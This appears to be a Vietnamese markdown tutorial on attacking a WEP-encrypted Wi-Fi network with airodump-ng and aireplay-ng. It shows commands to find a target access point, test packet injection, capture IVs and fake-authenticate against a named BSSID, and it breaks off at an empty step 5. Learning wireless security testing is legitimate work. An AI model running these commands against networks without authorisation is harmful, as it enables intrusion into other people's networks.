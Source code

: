 # Airodump-ng + Aircrack-ng + Aireplay-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```

![Dùng airodump tìm kiếm access point](images\airodumpforvictim.png)

Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **a Tan 99 muon ket ban 4 phuong**
- Channel: **11**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 11
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```

![Test packet injection](images\testinjectionpacket.png)

Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 11 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```

![Test packet injection](images\airodumpforiv.png)

## Bước 4 -

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h 8C:F5:A3:1E:4E:37 wlan0mon
```

![](images\aireplay1.png)

## Bước 5 -
